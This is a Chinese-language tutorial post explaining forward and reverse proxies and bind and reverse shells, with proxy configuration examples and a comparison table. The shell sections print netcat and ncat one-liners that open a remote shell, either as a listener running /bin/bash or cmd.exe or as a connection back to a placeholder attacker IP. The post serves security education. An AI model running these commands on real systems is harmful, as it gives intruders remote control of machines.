


# 正向代理、反向代理、正向 Shell 和反弹 Shell


在网络安全领域，正向代理、反向代理、正向 Shell 和反弹 Shell 是几个重要但容易混淆的概念。今天我们一起来了解它们的区别和应用吧～🤓

- [0x01 正向代理 (Forward Proxy)](#0x01-正向代理-forward-proxy)
- [0x02 反向代理 (Reverse Proxy)](#0x02-反向代理-reverse-proxy)
- [0x03 正向 Shell (Bind Shell)](#0x03-正向-shell-bind-shell)
- [0x04 反向 Shell (Reverse Shell)](#0x04-反向-shell-reverse-shell)
- [0x05 正 / 反向 Shell 对比](#0x05-正--反向-shell-对比)
- [0x06 总结对比🎉](#0x06-总结对比)
- [0x07 参考文章](#0x07-参考文章)



## 0x01 正向代理 (Forward Proxy)

正向代理是一种位于客户端和目标服务器之间的中介。客户端通过正向代理访问目标资源，代理服务器接收请求，再将请求转发到目标服务器，然后将返回结果传回客户端。

🌟 特点和作用：

- **隐藏客户端**：客户端的真实 IP 会被代理掩盖，目标服务器只能看到代理服务器的 IP。例如，在企业网络中，员工通过公司设置的正向代理服务器访问互联网，互联网上的服务器记录到的访问 IP 为代理服务器的 IP，而非员工个人设备的 IP。

- **访问控制**：限制客户端访问某些资源，比如企业网络控制上网权限。企业可以通过正向代理设置访问策略，禁止员工访问特定的网站或服务，如限制访问游戏网站、社交媒体平台等。

- **内容缓存**：代理服务器缓存静态资源，加快访问速度，减少网络流量。当多个客户端请求相同的静态资源（如图片、CSS 样式表、JavaScript 文件等）时，代理服务器可以直接从缓存中返回资源，而无需再次向目标服务器请求，从而提高访问速度并减少网络带宽的消耗。

- **访问记录**：回溯访问日志，如企业中某些敏感资源需要通过代理服务器（跳板机）进行访问。企业可以通过查看代理服务器的访问日志，了解员工对敏感资源的访问情况，进行审计和安全管控。

  

### Windows 和 Linux 下的正向代理命令示例

在 Linux 系统中，常见的正向代理工具是proxychains，它可以让其他命令通过代理服务器执行。例如，若要使用curl命令通过位于[192.168.1.100:8080](http://192.168.1.100:8080)的代理服务器访问[example.com](http://example.com)，可以这样操作：

```
proxychains curl http://example.com
```

在 Windows 系统中，可以通过设置系统的代理服务器来实现正向代理。以在命令提示符（CMD）中使用curl命令为例，首先设置代理环境变量：

```
set http\_proxy=http://192.168.1.100:8080
set https\_proxy=http://192.168.1.100:8080
```

然后使用curl命令访问目标网站：

```
curl http://example.com
```

场景举例：员工通过正向代理访问互联网，公司可以记录并控制访问行为。

## 0x02 反向代理 (Reverse Proxy)

反向代理位于客户端和内部服务器之间，客户端并不知道真正提供服务的服务器地址，而是直接向反向代理发起请求，代理服务器再将请求转发到内部服务器。

🌟 特点和作用：

- **隐藏服务器**：反向代理将后端服务器的真实 IP 地址隐藏。在大型网站架构中，反向代理服务器对外暴露统一的 IP 地址，客户端的请求都发送到这个 IP，而真实的后端服务器 IP 被隐藏起来，减少了服务器直接暴露在公网带来的安全风险。

- **负载均衡**：将访问请求分发到多个服务器，确保系统高效运行。例如，当大量用户同时访问某电商网站时，反向代理服务器（如 Nginx）可以根据预设的负载均衡算法（如轮询、加权轮询、IP 哈希等），将用户请求均匀地分发到多台后端应用服务器上，避免某一台服务器因负载过高而崩溃。

- **安全防护**：对请求进行过滤和认证，提升安全性。反向代理服务器可以配置防火墙规则、入侵检测系统（IDS）/ 入侵防御系统（IPS）等安全组件，对客户端发送的请求进行检测和过滤，阻止恶意请求（如 SQL 注入、跨站脚本攻击等）到达后端服务器。

- **内容缓存**：代理服务器缓存静态资源，降低请求延迟、服务器负载。与正向代理类似，反向代理也可以缓存静态资源，对于频繁访问的静态内容（如商品图片、静态页面等），直接从缓存中返回给客户端，减少后端服务器的处理压力，同时加快用户访问速度。

- **路由功能**：代理服务器针对不同的查询内容，将请求路由到不同的服务器。比如，在一个同时提供 Web 服务和 API 服务的系统中，反向代理可以根据请求的 URL 路径，将对/web/开头路径的请求路由到 Web 服务器，将对/api/开头路径的请求路由到 API 服务器。

  

### Windows 和 Linux 下的反向代理命令示例

在 Linux 系统中，Nginx 是常用的反向代理服务器软件。假设要将对[example.com](http://example.com)的请求反向代理到后端的 Web 服务器[192.168.1.110:8080](http://192.168.1.110:8080)，可以通过修改 Nginx 的配置文件（通常位于/etc/nginx/conf.d/目录下）来实现：

```
server {
    listen       80;
    server\_name  example.com;
    location / {
        proxy\_pass http://192.168.1.110:8080;
        proxy\_set\_header Host \$host;
        proxy\_set\_header X-Real-IP \$remote\_addr;
        proxy\_set\_header X-Forwarded-For \$proxy\_add\_x\_forwarded\_for;
        proxy\_set\_header X-Forwarded-Proto \$scheme;
    }
}
```

在 Windows 系统中，可以使用 IIS（Internet Information Services）来配置反向代理。以将对[example.com](http://example.com)的请求反向代理到[192.168.1.110:8080](http://192.168.1.110:8080)为例，首先需要安装 IIS 的 “应用程序请求路由” 模块，然后在 IIS 管理器中进行如下配置：

1. 打开 IIS 管理器，选择服务器节点。

1. 双击 “应用程序请求路由缓存” 图标。

1. 在右侧的操作栏中，点击 “服务器代理设置”。

1. 勾选 “启用代理”，并在 “服务器地址” 处输入[192.168.1.110:8080](http://192.168.1.110:8080)。

1. 点击 “确定” 保存设置。

场景举例：用户访问某大型网站时，访问的实际地址是统一的，但实际上是由多台服务器处理请求。

## 0x03 正向 Shell (Bind Shell)

正向 Shell 是一种远程控制技术，指目标设备在某个端口上打开监听，攻击者连接到这个端口获得 Shell 权限，从而控制目标设备。

🌟 特点和作用：

- **目标设备主动监听端口**：攻击者通过已知端口号进行连接。例如，攻击者在目标设备（如一台 Linux 服务器）上运行监听命令，在指定端口（如 8888 端口）等待连接。

- **攻击者获得的是该监听端口上的 Shell 权限**：可以执行系统命令。一旦连接成功，攻击者就可以在目标设备上执行各种系统命令，如查看文件、创建文件、启动 / 停止服务等。

场景举例：当目标机器拥有公网 IP 或与攻击者位于同一网络中时比较适用。目标设备开启端口，等待攻击者远程连接到该端口控制目标系统。

局限性：如果目标机器位于防火墙后或使用 NAT，则难以建立连接，因为攻击者无法直接访问目标机器的端口。

### nc 和 ncat 工具介绍

nc（netcat）是一个功能强大的网络工具，它可以在 TCP 或 UDP 协议上进行网络连接的创建、管理和数据传输。nc具有以下特点：

- 支持 TCP 和 UDP 协议，可用于多种网络场景，如端口扫描、网络测试、文件传输等。

- 命令简洁，易于使用。例如，在正向 Shell 中，它可以方便地实现端口监听和连接功能。

ncat是nmap项目中的一个工具，它是nc的增强版本。ncat相比nc具有更多高级功能：

- **支持 SSL/TLS 加密**：在进行网络通信时，可以对数据进行加密，提高通信的安全性，防止数据被窃取或篡改。

- **支持 IPv6**：适应互联网协议从 IPv4 向 IPv6 的过渡，能够在 IPv6 网络环境中正常工作。

- **集成端口扫描功能**：可以对目标主机的端口进行扫描，查看哪些端口处于开放状态，帮助攻击者发现目标主机上可能存在的服务和漏洞。

- **支持代理连接**：可以通过代理服务器进行网络连接，增加连接的灵活性和隐蔽性。

### Windows 和 Linux 下的正向 Shell 命令示例

#### 目标机器 (受害者)

在 Linux 系统中，使用nc监听指定端口，等待连接：

```
nc -lvp <端口号> -e /bin/bash 
```

其中，-l表示监听模式，-v表示详细输出，显示连接信息，-p指定监听的端口号，-e指定连接建立后执行的命令，这里是启动/bin/bash shell。

在 Windows 系统中，也可以使用nc，但需要先下载nc的 Windows 版本并配置环境变量。监听命令如下：

```
nc -lvp <端口号> -e cmd.exe 
```

#### 攻击者机器

在 Linux 系统中，连接到目标机器的指定端口：

```
nc <目标机器IP地址> <端口号>
```

在 Windows 系统中，使用下载并配置好的nc连接目标机器：

```
nc <目标机器IP地址> <端口号>
```

## 0x04 反向 Shell (Reverse Shell)

反弹 Shell 的原理与正向 Shell 相反。目标设备主动连接到攻击者的 IP 和端口，将 Shell 权限反弹到攻击者的设备上。

🌟 特点和作用：

- **目标设备主动发起出站连接**：绕过防火墙的入站限制。在许多网络环境中，防火墙通常会限制外部设备对内部设备的入站连接，但允许内部设备主动发起出站连接。攻击者利用这一特性，通过在目标设备上执行命令，使其主动连接到攻击者控制的 IP 和端口。

- **一旦连接成功**：攻击者通过该反向连接控制目标设备。与正向 Shell 类似，连接成功后，攻击者可以在目标设备上执行系统命令，实现对目标设备的控制。

场景举例：当目标机器位于防火墙后或使用 NAT 时，反向 shell 更合适，目标设备执行命令，连接攻击者 IP 和端口，将系统 Shell 权限反弹给攻击者。比如，攻击者利用目标主机存在的漏洞，如 Web 应用程序漏洞，在目标主机上执行命令，使其主动连接到攻击者控制的外部服务器，从而绕过目标主机的防火墙限制，实现对目标主机的控制。

### Windows 和 Linux 下的反向 Shell 命令示例

#### 攻击者机器

在 Linux 系统中，使用nc监听指定端口，等待连接：

```
nc -lvp <端口号>
```

在 Windows 系统中，使用ncat监听指定端口（假设已安装并配置好ncat）：

```
ncat -lvp <端口号>
```

#### 目标机器 (受害者)

在 Linux 系统中，连接到攻击者机器的指定端口：

```
nc <攻击者机器IP地址> <端口号> -e /bin/bash 
```

在 Windows 系统中，使用ncat连接到攻击者机器的指定端口：

```
ncat <攻击者机器IP地址> <端口号> -e cmd.exe 
```

## 0x05 正 / 反向 Shell 对比

### 5.1📍连接发起方

正向 shell：由攻击者主动发起连接到目标主机。攻击者需要事先知道目标主机的 IP 地址和开放的端口，然后使用相应的工具或命令去尝试连接目标主机，建立起一个命令行界面，从而在目标主机上执行命令，获取信息或进行其他操作。

反向 shell：由目标主机主动向攻击者的机器发起连接。通常是攻击者通过一些手段，如利用漏洞在目标主机上执行特定的命令或植入恶意程序，使得目标主机主动连接到攻击者指定的 IP 地址和端口，从而为攻击者建立一个可以控制目标主机的 shell 环境。

### 5.2 📍连接方向

正向 shell：连接方向是从攻击者指向目标主机，就像攻击者直接 “走进” 目标主机的系统一样，数据和命令的传输是从攻击者的机器流向目标主机。

反向 shell：连接方向则相反，是从目标主机指向攻击者的机器，如同目标主机主动 “伸出援手” 连接到攻击者的环境，数据和命令的传输是从目标主机流向攻击者的机器。

### 5.3 📍权限要求

正向 shell：通常要求攻击者具有较高的权限才能成功建立连接并执行操作。因为需要能够突破目标主机的安全防护，如防火墙的限制，直接访问目标主机的特定端口等。

反向 shell：相对来说，对攻击者在目标主机上的初始权限要求较低。只要能够在目标主机上执行一段能够发起连接的代码或命令，就有可能建立反向 shell，之后再通过一些提权操作来获取更高的权限。

### 5.4 📍隐蔽性

正向 shell：由于是攻击者主动发起连接，容易被目标主机的网络监控设备或安全防护软件检测到，尤其是当连接的源 IP 地址不属于目标主机所在的信任网络范围时，其隐蔽性较差。

反向 shell：因为是目标主机主动向攻击者连接，在一些情况下，其连接行为可能更容易被伪装成正常的网络通信，相对更具隐蔽性。例如，攻击者可以将反向 shell 的连接端口设置为与目标主机正常对外通信的端口相同，从而降低被发现的风险。

### 5.5 📍稳定性

正向 shell：稳定性相对较好，一旦连接建立成功，只要攻击者不主动中断连接，且网络环境保持稳定，连接通常可以持续保持，便于攻击者持续地对目标主机进行操作。

反向 shell：其稳定性可能会受到多种因素的影响，如目标主机的网络配置变化、防火墙规则更新、网络波动等，都可能导致反向 shell 连接中断，需要攻击者重新建立连接。

## 0x06 总结对比🎉

| 概念       | 描述                                   | 主体   | 连接发起者 | 常用场景                                           |
| ---------- | -------------------------------------- | ------ | ---------- | -------------------------------------------------- |
| 正向代理   | 客户端访问服务器的中介                 | 代理   | 客户端     | 隐藏客户端、访问控制、内容缓存、访问记录           |
| 反向代理   | 服务器资源访问的中介                   | 代理   | 客户端     | 隐藏服务器、负载均衡、安全保护、内容缓存、路由功能 |
| 正向 Shell | 目标设备监听端口，攻击者连接获得 Shell | 目标   | 攻击者     | 远程控制（需目标开放端口）                         |
| 反弹 Shell | 目标设备连接攻击者，反弹 Shell 权限    | 攻击者 | 目标       | 绕过防火墙出站连接限制                             |

### 小结 📝

理解这些概念的关键是关注主体角色（是代理还是 Shell 主机）、连接方向（谁发起连接），以及在实际应用场景中的安全限制。希望这篇文章帮助大家更清晰地理解正向代理、反向代理、正向 Shell 和反弹 Shell 的区别和应用场景！✨

## 0x07 参考文章

 1. [《图解正向](http://m.toutiao.com/group/6309424272154804482/?upstream_biz=doubao)[代理、反向](http://m.toutiao.com/group/6309424272154804482/?upstream_biz=doubao)[代理以及透](http://m.toutiao.com/group/6309424272154804482/?upstream_biz=doubao)[明代理》](http://m.toutiao.com/group/6309424272154804482/?upstream_biz=doubao)：该博客以图文并茂的方式阐述了正向代理、反向代理和透明代理的概念，通过形象的比喻和示例，让读者轻松理解代理技术的原理，适合初学者快速入门。

 2. [《](http://m.toutiao.com/group/7320808115656950284/?upstream_biz=doubao)[3 分钟搞懂](http://m.toutiao.com/group/7320808115656950284/?upstream_biz=doubao)[反弹 she](http://m.toutiao.com/group/7320808115656950284/?upstream_biz=doubao)[ll》](http://m.toutiao.com/group/7320808115656950284/?upstream_biz=doubao)：这篇文章对反弹 Shell 的原理和应用进行了简洁明了的介绍，用通俗易懂的语言解释了正向 Shell 和反向 Shell 的区别，以及在实际网络环境中的使用场景，有助于读者快速掌握反弹 Shell 的核心要点。

 3. [《内网渗透 - 详解代理逻辑及隧道》](http://m.toutiao.com/group/7169411676499427844/?upstream_biz=doubao)：深入探讨了内网渗透中的代理逻辑和隧道技术，结合实际案例分析了正向代理和反向代理在渗透测试中的应用，同时介绍了多种隧道工具的使用方法，对网络安全从业者和爱好者具有较高的参考价值。

 4. [《正向代理和反向代理的区别》](https://www.modb.pro/db/1858699705262288896)：详细剖析了正向代理和反向代理在工作原理、应用场景、优缺点等方面的差异，通过具体的配置示例和实际应用案例，帮助读者深入理解两种代理技术的本质区别和适用场景。

 5. [《nginx--正向代理、反向代理及负载均衡》](https://blog.csdn.net/justinqin/article/details/119519019)：详细介绍了如何配置Nginx实现正向代理，通过正向代理隐藏真实IP并访问百度搜索；同时讲述了反向代理的概念及其在nginx中的配置，以及负载均衡的基本原理和常见算法。

 6. [《shell与反弹shell》](https://www.cnblogs.com/crook/p/18867136)：这篇文章围绕网络安全中的代理与 Shell 技术展开，讲解了正向代理、反向代理、正向 Shell 和反弹 Shell 的概念、特点、命令示例及区别对比。

